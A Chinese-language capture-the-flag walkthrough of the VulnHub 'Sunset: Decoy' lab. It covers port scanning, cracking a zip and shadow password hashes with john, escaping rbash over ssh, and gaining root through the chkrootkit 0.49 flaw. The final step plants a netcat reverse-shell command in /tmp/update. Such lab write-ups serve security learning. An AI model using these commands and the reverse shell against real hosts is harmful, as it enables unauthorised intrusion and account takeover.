





# Sunset：Decoy

> https://download.vulnhub.com/sunset/decoy.ova

靶场IP：`192.168.2.16`

扫描对外端口服务

```
┌──(root㉿kali)-[/tmp]
└─# nmap -p1-65535 -sV 192.168.2.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 10:02 EDT
Nmap scan report for 192.168.2.16
Host is up (0.000079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38
MAC Address: 08:00:27:36:E2:8F (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds

```

访问80端口，有一个压缩包



压缩包解压需要密码，爆破压缩包密码为：`manuel`

```
┌──(root㉿kali)-[~/Downloads]
└─# zip2john save.zip
ver 2.0 efh 5455 efh 7875 save.zip/etc/passwd PKZIP Encr: TS_chk, cmplen=668, decmplen=1807, crc=B3ACDAFE ts=90AB cs=90ab type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/shadow PKZIP Encr: TS_chk, cmplen=434, decmplen=1111, crc=E11EC139 ts=834F cs=834f type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/group PKZIP Encr: TS_chk, cmplen=460, decmplen=829, crc=A1F81C08 ts=8D07 cs=8d07 type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/sudoers PKZIP Encr: TS_chk, cmplen=368, decmplen=669, crc=FF05389F ts=1535 cs=1535 type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/hosts PKZIP Encr: TS_chk, cmplen=140, decmplen=185, crc=DFB905CD ts=8759 cs=8759 type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** save.zip/etc/hostname PKZIP Encr: TS_chk, cmplen=45, decmplen=33, crc=D9C379A9 ts=8CE8 cs=8ce8 type=0
save.zip:$pkzip$6*1*1*0*8*24*8759*a7409df1d7a76ad3809794d387209855bb7638aa589d5be62b9bf373d78055e1dd351925*1*0*8*24*1535*459926ee53809fa53fe26c3e4548cd7819791a638c8d96d3ec7cf18477ffa1e9e2e77944*1*0*8*24*834f*7d2cbe98180e5e9b8c31c5aec89c507011d26766981d17d249e5886e51ac03270b009d62*1*0*8*24*8d07*7d51a96d3e3fa4083bbfbe90ee97ddba1f39f769fcf1b2b6fd573fdca8c97dbec5bc9841*1*0*8*24*90ab*f7fe58aeaaa3c46c54524ee024bd38dae36f3110a07f1e7aba266acbf8b5ff0caf42e05e*2*0*2d*21*d9c379a9*9b9*46*0*2d*8ce8*aae40dfa55b72fd591a639c8c6d35b8cabd267f7edacb40a6ddf1285907b062c99ec6cc8b55d9f0027f553a44f*$/pkzip$::save.zip:etc/hostname, etc/hosts, etc/sudoers, etc/shadow, etc/group, etc/passwd:save.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/Downloads]
└─# vim hash
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/Downloads]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manuel           (save.zip)     
1g 0:00:00:00 DONE (2022-09-08 10:05) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

解压压缩包

```
┌──(root㉿kali)-[~/Downloads]
└─# unzip save.zip 
Archive:  save.zip
[save.zip] etc/passwd password: 
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname 
```

查看shadow文件

```
┌──(root㉿kali)-[~/Downloads/etc]
└─# cat shadow 
root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
daemon:*:18440:0:99999:7:::
bin:*:18440:0:99999:7:::
sys:*:18440:0:99999:7:::
sync:*:18440:0:99999:7:::
games:*:18440:0:99999:7:::
man:*:18440:0:99999:7:::
lp:*:18440:0:99999:7:::
mail:*:18440:0:99999:7:::
news:*:18440:0:99999:7:::
uucp:*:18440:0:99999:7:::
proxy:*:18440:0:99999:7:::
www-data:*:18440:0:99999:7:::
backup:*:18440:0:99999:7:::
list:*:18440:0:99999:7:::
irc:*:18440:0:99999:7:::
gnats:*:18440:0:99999:7:::
nobody:*:18440:0:99999:7:::
_apt:*:18440:0:99999:7:::
systemd-timesync:*:18440:0:99999:7:::
systemd-network:*:18440:0:99999:7:::
systemd-resolve:*:18440:0:99999:7:::
messagebus:*:18440:0:99999:7:::
avahi-autoipd:*:18440:0:99999:7:::
sshd:*:18440:0:99999:7:::
avahi:*:18440:0:99999:7:::
saned:*:18440:0:99999:7:::
colord:*:18440:0:99999:7:::
hplip:*:18440:0:99999:7:::
systemd-coredump:!!:18440::::::
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

```

爆破用户`root`和`296640a3b825115a47b68fc44501c828`。只发现用户`296640a3b825115a47b68fc44501c828`的密码为`server`

```
┌──(root㉿kali)-[~/Downloads/etc]
└─# cat shadow 
root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/Downloads/etc]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt shadow 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828) 
```

ssh登录后没有`rbash`



绕过rbash

```
┌──(root㉿kali)-[~/Downloads/etc]
└─# ssh 296640a3b825115a47b68fc44501c828@192.168.2.16 -t  bash              
296640a3b825115a47b68fc44501c828@192.168.2.16's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  ls  mkdir  SV-502  user.txt
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt
bash: cat: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ 
```

**需要全路径才可以执行命令**，查看sudo列表，没有东西。

> 可以配置环境变量
>
> ```
> export PATH="/usr/bin/:$PATH"
> echo $PATH
> ```

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /usr/bin/sudo -l
sudo: unable to resolve host 60832e9f188106ec5bcc4eb7709ce592: Name or service not known

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for 296640a3b825115a47b68fc44501c828: 
Sorry, user 296640a3b825115a47b68fc44501c828 may not run sudo on 60832e9f188106ec5bcc4eb7709ce592.

```

执行`honeypot.decoy `

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------

```

使用pspy64监控进程，发现**Chkrootkit-0.49**



Chkrootkit 提权漏洞：`https://www.exploit-db.com/exploits/33899`

配置反弹shell

```
echo '/usr/bin/nc 192.168.2.5 4444 -e /bin/sh' > /tmp/update
/usr/bin/chmod +x /tmp/update 
```

再次运行AV扫描。



一分钟后就可以连接反弹shell


